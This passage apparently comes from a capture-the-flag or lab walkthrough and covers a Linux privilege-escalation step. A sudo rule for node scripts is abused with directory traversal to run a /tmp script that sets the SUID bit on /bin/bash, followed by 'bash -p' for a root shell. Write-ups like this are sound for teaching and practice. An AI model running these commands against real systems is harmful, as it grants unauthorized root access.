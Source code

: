 Theses scripts will request the DB server to output tables regarding the orders. But there are not usable for us.

### Privilege Escalation

Since we can execute a script /usr/local/scripts/*.js as sudo, we can use a directory traversal to execute any js script.

create a file /tmp/xploit.js (found exeample [here](https://stackabuse.com/executing-shell-commands-with-node-js/)) :

```js
const { exec } = require("child_process");
exec("chmod +s /bin/bash");
```

Execute as :

```shell
sudo /usr/bin/node /usr/local/scripts/../../../tmp/xploit.js
```

Check that /bin/bash have the SUID bit set :

```shell
ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

execute :

```shell
/bin/bash -p
```
